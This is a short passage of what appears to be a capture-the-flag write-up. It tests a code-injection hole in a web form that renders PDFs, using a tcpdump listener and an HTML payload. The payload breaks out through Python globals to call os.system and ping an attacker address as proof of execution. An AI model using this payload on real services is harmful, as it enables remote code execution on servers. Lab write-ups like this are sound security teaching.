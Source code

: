 Skipped the screen shot for below forms

- **trainingRequest** From - Parameter : `training_request`
- **homeOfficeRequest** Form - Parameter : `home_office_request`
- **travelApprovalForm** Form - Parameter : `travel_request`

Check if the exploit works (Using `Travel Approval Form` as example)

```bash
sudo tcpdump -i tun0 icmp -v
```

- Payload :

```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('ping 10.10.14.21') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
GG
</font></para>
```

![](/assets/obsidian/86c7d31c1274ccef4b9d1f34c5f9e177.png)
